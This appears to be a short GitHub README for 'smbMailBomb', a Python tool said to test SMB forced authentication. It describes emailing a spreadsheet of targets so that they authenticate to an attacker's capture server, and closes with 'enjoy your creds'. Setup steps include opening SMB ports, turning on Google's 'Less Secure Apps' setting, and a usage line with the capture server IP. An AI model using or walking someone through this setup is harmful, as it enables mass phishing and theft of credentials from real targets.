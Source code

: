 # smbMailBomb
A command line utility to test for SMB Forced Authentication
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
In the google account settings
  Click Security
  Allow Less Secure Apps
From the command line run smbMailBomb.py and enjoy your creds. 
#Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
  -f path to target xlsx file
  -e your google business email
  -p your google password
  -ip your capture server IP
#Requirments
  pandas==0.23.4
  colorama==0.3.9
#XLSX
Add your targets first name and email, following the template provided.
